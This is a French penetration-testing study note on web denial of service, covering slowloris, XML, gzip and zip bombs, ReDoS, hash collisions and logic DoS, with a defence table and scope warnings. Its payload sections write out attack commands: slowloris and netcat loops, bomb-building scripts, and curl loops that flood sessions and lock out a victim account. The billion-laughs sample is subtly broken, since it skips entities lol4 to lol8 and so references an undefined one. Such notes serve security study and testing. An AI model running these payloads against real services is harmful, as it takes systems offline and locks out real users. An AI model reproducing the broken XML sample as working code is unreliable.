

# Denial of Service (Web)

> [!info] **En 1 phrase**
> DoS = rendre un service **indisponible** en épuisant ses ressources (CPU, mémoire,
> connexions, stockage) ou en exploitant une **logique** vulnérable qui fait saturer/crasher l'app.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Denial%20of%20Service/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> Une app suppose ses ressources **illimitées** : elle ne limite ni la taille des entrées,
> ni le nombre de connexions, ni la profondeur des structures (XML, regex, archive) à traiter.
> Un petit payload peut produire une **amplification** énorme (bombes, lenteurs, regex).

---

## Types de DoS

### 1. Côté serveur — épuisement des ressources

- **Connexions / sockets** : ne pas fermer les connexions → épuisement des file descriptors.
- **CPU** : opérations coûteuses déclenchées par l'entrée (hash, compression, parsing XML).
- **Mémoire** : structures explosives (billion laughs, JSON profond, désérialisation).
- **Stockage** : remplir le filesystem jusqu'à `No space left on device` (inodes ou taille).

| Filesystem | Max d'inodes |
|---|---|
| EXT4 | ~4 milliards |
| NTFS | ~4,2 milliards (entrées MFT) |
| FAT32 | ~268 millions (+ limite fichier 4 GB) |
| ZFS | ~281 trillions |
| BTRFS | 2^64 (~18 quintillions) |

### 2. DoS logique (Business Logic)

- **Verrouillage de comptes** : échecs de login répétés → compte banni (souvent **out-of-scope** !).
- **Coût computationnel** : action "gratuite" pour l'attaquant mais chère pour le serveur
  (rapport, export, tri de données massives, mot de passe avec coût bcrypt élevé sur un endpoint public).
- **Cache / sessions** : faire consommer une quantité énorme de sessions/caches mémoire.

### 3. Attaques par lenteur (slow)

- **Slowloris** : envoyer les headers HTTP petit à petit, ne jamais terminer la requête →
  les connexions restent ouvertes, le pool de sockets est saturé.
- **Slow Read** : lire les réponses très lentement → épuisement des buffers côté serveur.

### 4. Bombes (amplification de taille)

- **Zip bomb** : archive fortement compressée qui se décompresse en plusieurs Go.
- **Billion laughs / XML bomb** : entités XML imbriquées → explosion exponentielle en mémoire.
- **gzip bomb** : réponse HTTP compressée minuscule, décompressée énormément côté client/serveur.

### 5. ReDoS (Regex DoS)

- Une regex à **retour arrière excessif** (backtracking catastrophique) sur une entrée contrôlée
  → blocage du CPU. Surtout sur les regex non ancrées du type `(a+)+$`.

### 6. Niveau réseau (hors scope applicatif)

- **SYN flood**, **amplification UDP** (NTP, DNS) : saturer l'infra en amont.

---

## Payloads

### Slowloris

```bash
# Installe la connexion sans la terminer (headers partiels)
slowloris -v -ua <USER_AGENT> --socktimeout 30 <target> -p 80

# Variante manuelle avec netcat : envoyer les headers un par un en boucle
# while true; do echo -e "X-a: 1\r" | nc -v -w 1 target 80; done
```

### Billion laughs (XML bomb)

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

> [!warning] **Effet** : `&lol9;` = ~3 **milliards** de caractères "lol" en mémoire/CPU.
> À envoyer avec parcimonie, sur un endpoint XML/XXE (voir [[XXE| XXE]]).

### gzip bomb

```bash
# Créer une archive gzip qui se décompresse en énormément de données
dd if=/dev/zero bs=1M count=1024 | gzip > bomb.gz        # ~1 GB → ~1 MB
python3 -c "import gzip; gzip.open('bomb.gz','wb').write(b'A'*2**31)"  # 2 GB

# Envoi : compresser une réponse / un upload attendu par le serveur
# Variante HTTP : en-tête Content-Encoding: gzip sur une grosse réponse
```

### Compression

```bash
# Bombe ZIP avec pycha / zipbomb manuelle
python3 - <<'EOF'
import zipfile
with zipfile.ZipFile('bomb.zip','w',zipfile.ZIP_DEFLATED,compresslevel=9) as z:
    z.writestr('a'*1000, b'\x00'*(10**9))   # quasi-illimité si décompression récursive
EOF

# Upload répété de gros fichiers compressés → extraction gourmande côté serveur
```

### ReDoS

```text
Regex vulnérable :  ^(a+)+$    ou    (a|aa)+$
Entrée déclencheuse :  aaaaaaaaaaaaaaaaaaaaaaaaaaaa!        → backtracking catastrophique
```

### Hash collisions (attaques "hash DoS")

```text
Paramètres POST qui entrent dans des HashMap : 
envoyer de nombreuses clés qui produisent le même hash (même bucket) 
→ lookups O(n²) au lieu de O(1) → épuisement CPU (PHP < 5.4, Java, ASP.NET).
```

---

## DoS Logique — exemples

### Cache & sessions

```bash
# Générer des milliers de sessions/sous-clés de cache uniques (ex: ?lang=xx en cookie)
for i in $(seq 1 5000); do curl -s -b "session=AAAAAAAAAAA$i" http://target/; done
# → la table de sessions gonfle en mémoire/stockage

# Cache busting massif : varier un paramètre sans cache pour forcer le calcul serveur
for i in $(seq 1 5000); do curl -s "http://target/page?cb=$i" -o /dev/null; done
```

### Verrouillage de comptes

```bash
# Risqué et souvent OUT-OF-SCOPE : bannir un vrai compte utilisateur
for i in {1..100}; do curl -X POST -d "username=victim&password=wrong" http://target/login; done
```

### Recherches lourdes / exports

```text
Endpoint de recherche non limité (pas de pagination) : *  →  JOIN massifs en base.
Export CSV/PDF de l'ensemble des données d'un tenant avec les relations.
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Rate limiting** | Limiter requêtes/IP, login attempts, recherches (voir [[Brute Force Rate Limit]]) |
| **Limites d'input** | Taille max des corps (upload, XML, JSON), profondeur, nombre d'éléments |
| **Timeouts** | Lecture/écriture socket, temps de traitement, max connections concurrentes |
| **Anti-slowloris** | Timeout d'en-têtes HTTP, proxy/CDN (Nginx `client_header_timeout`) |
| **XML sécurisé** | Désactiver DTD/entités (→ voir [[XXE\| XXE]]) |
| **Regex sûres** | Éviter le backtracking catastrophique, ancrer `^$`, limiter la longueur d'entrée |
| **Anti-bombe** | Décompression limitée (taille max, ratio compression), pas d'archives imbriquées |
| **Sessions/cache** | Expiration courte, quotas de cache par tenant, éviction mémoire |
| **Protection réseau** | CDN/WAF anti-flood, SYN cookies, geoblocking |
| **Surveillance** | Alertes CPU/mémoire/5xx, logs de requêtes anormales |

---

## Tips & Pièges

> [!tip] **Méthodo de test**
> - Commencer par les DoS **logiques** (les moins destructeurs) : coût d'opération, lockout, cache.
> - Mesurer le **temps de réponse** avant/après (`time curl`), surveiller l'impact réel.
> - Toujours confirmer auprès du client le **scope** : un DoS peut casser la prod.

> [!warning] **Pièges**
> - Verrouillage de comptes et bombes = **haut risque**, souvent **out-of-scope** : un seul test peut
>   bloquer un compte client ou faire crasher le serveur durablement.
> - Une bombe qui marche sur l'attaquant (décompression locale, fork bomb) peut aussi **tuer votre propre VM**.
> - Slowloris/gzip : testez en **environnement contrôlé**, jamais en aveugle sur la prod.
> - Le DoS est rarement "réversible" : prévoir une fenêtre de test et des contacts d'urgence.

---

## Liens

- [[Injection SQL| SQLi]]
- [[XXE| XXE]]
- [[Brute Force Rate Limit| Brute Force & Rate Limit]]
- [[Business Logic| Business Logic]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — Denial of Service](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Denial%20of%20Service/README.md)
